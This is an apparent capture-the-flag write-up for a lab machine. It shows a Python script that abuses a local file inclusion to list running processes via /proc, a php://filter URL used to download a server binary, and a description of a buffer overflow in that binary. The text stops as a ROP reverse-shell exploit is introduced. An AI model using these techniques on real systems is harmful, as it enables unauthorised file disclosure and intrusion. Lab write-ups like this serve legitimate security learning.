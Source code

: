So... looks like something is listenning in the server and is responsible of processing the license uploaded. Maybe the description in the form about a 512 bit key is a hint about a likely buffer overflow.

### Leaking processes

Since we know there are something listenning in the server for licenses to validate let's try to find it. Using the LFI and a little python script it is possible to leak the running processes:

```python
import requests

target_ip = '10.10.11.154'

print("Leaking processes running...")
for pid in range(10000):
    payload = f'file:///proc/{pid}/cmdline'
    url = f'http://{target_ip}/index.php?page={payload}'
    response = requests.get(url)
    if(response.text):
        print(f'PID {pid} --> {response.text}')
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 leak_program.py
Leaking processes running...
PID 417 --> /usr/bin/activate_license1337
PID 578 --> nginx: worker process
PID 579 --> nginx: worker process
PID 585 --> php-fpm: pool www
```

That `/usr/bin/activate_license1337` looks promising. Since we know that it is binded to port 1337, the numerical part is just an argument so the binary is `/usr/bin/activate_license`. Time to download it!

We can get the binary encoded as a base64 using:
```
http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/usr/bin/activate_license1337
```
After getting the string, we can just copy and decode in a file to get the actual binary.

### Reversing time and RCE!

Using Ghidra to check a bit how the binary is built, I found that it is vulnerable to buffer overflow. In the function `activate_license` there is a 512 bytes long buffer that it is used to hold the data sent from the web server, a 4 bytes number representing the information size added by the `activate_license.php` file and the license key entered in the form. The thing is that, when extracting this information from the socket and copying it to the buffer, the program does not check that the content of the socket fits the inside the buffer.

It is now time to write our exploit, this part really took me a long time of try and error. The idea is to use ROP to spawn a reverse shell, normally making the program spawns a shell is enough... but not in this case, we don't have access to the `activate_license` service itself.
